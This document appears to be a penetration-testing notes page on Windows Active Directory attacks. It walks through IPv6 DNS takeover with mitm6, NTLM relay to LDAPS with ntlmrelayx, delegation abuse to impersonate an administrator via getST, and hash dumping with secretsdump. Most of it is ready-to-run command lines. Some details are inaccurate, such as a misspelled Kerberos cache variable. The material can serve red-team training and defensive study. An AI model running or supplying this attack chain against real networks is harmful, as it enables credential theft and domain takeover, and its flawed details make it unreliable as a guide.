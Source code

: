 # ⭕ DNS Takeover + LDAP Relay

## <mark style="color:red;">IPv6 DNS Takeover</mark>

ipv6 is setup by default on all windows machines in a network even if the network doesnt utilize v6 so no one is doing dns resolotion for v6 .an attacker can setup a fake dns server and resolve all ipv6 requests in a network and forward them to the DC so we can sniff the authentication and hashs on the way with a tool like MitM6.

{% hint style="info" %}
For DNS takeover to work, the AD CS role must be installed and configured on the domain controller.
{% endhint %}

we run mitm6 on the domain use -i to specify the interface.

```
python mitm6.py -i vboxnet0 -d megacorp.local
```

leave the terminal open, for now we are playing the role of an IPv6 DNS server in the network.

## <mark style="color:red;">LDAP Relay</mark>

we use ntlmrelayx.py script from impacket tools to relay the credentials when a client requests for IPv6 resources.

```
ntlmrelayx.py -6  -t ldaps://[DC address] -wh fakewpad.megacorp.local -l lootme
```

**lootme :** the directory to save the hashes

#### we could use ldap instead of ldaps for LDAP without a certification but most domains use this feature. ipv6 is going to ask for dns every 30 minutes or after restarting the machine.

#### ntlmrelayx.py might not show the success message in the terminal just check the lootme directory.

![](<../../.gitbook/assets/image (210).png>)

![](<../../.gitbook/assets/image (207).png>)

#### we can open up the results with firefox

## <mark style="color:red;">NTLM Relay + Kerberos Delegation</mark>

similarly we can use these commands to target WPAD and grab NTLM hashes:

```
# take over DNS with mitm6
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqdn


# receive connection, create a computer and grant delegation rights
impacket-ntlmrelayx -t ldaps://192.168.56.115 -wh attacker-wpad --delegate-access


# use impacket getST.py to obtain kerberos ticket
getST.py -spn cifs/icorp-w10.internal.corp internal.corp/RDPOF\$ -impersonate admin


# now with this ticket you can do whatever you want
# for example dumping hashes
export KRBCCNAME=admin.ccache
secretsdump.py -k -no-pass icorp-w10.internal.corp
```
